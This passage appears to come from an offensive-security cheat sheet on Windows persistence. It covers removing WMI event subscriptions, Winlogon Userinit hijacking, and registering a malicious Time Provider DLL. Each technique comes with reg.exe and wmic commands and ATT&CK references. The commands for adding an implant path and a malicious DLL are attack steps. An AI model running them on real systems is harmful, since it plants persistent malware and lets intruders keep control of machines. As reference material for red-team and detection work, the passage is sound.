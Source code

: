 
- delete filters, consumers and bindings
```
wmic.exe /NAMESPACE:"\\root\subscription\" PATH __EventFilter WHERE Name="TESTE" DELETE

wmic.exe /NAMESPACE:"\\root\subscription\" PATH CommandLineEventConsumer WHERE Name="TESTE" DELETE

wmic.exe /NAMESPACE:"\\root\subscription\" PATH __FilterToConsumerBinding WHERE Filter='__EventFilter.Name="TESTE"' DELETE
```



#### Winlogon

- https://attack.mitre.org/techniques/T1547/004/
- https://www.ired.team/offensive-security/persistence/windows-logon-helper
- https://www.hackingarticles.in/windows-persistence-using-winlogon/

- common registry values
```
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

- check registry value
```
> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

- add path implant to key value
```
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\path\to\implant /t reg_sz /f
```


#### Time Providers

- https://attack.mitre.org/techniques/T1547/003/
- https://pentestlab.blog/2019/10/22/persistence-time-providers/
- https://hacklido.com/blog/841-gaining-persistence-on-windows-with-time-providers


- service that control time provs = W32Time

- registry that resides time prov
```
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\
```

1. Add new value in the TimeProviders registry
```
> reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\<PERSIST-NAME>" /t REG_EXPAND_SZ /v "DllName" /d "%systemroot%\system32\<maltimeprovdll>" /f
```

2. Enable the new Time Provider and set it as a input Time Provider
```
> reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\<PERSIST-NAME>" /t REG_DWORD /v "Enabled" /d "1" /f

> reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\<PERSIST-NAME>" /t REG_DWORD /v "InputProvider" /d "1" /f
```
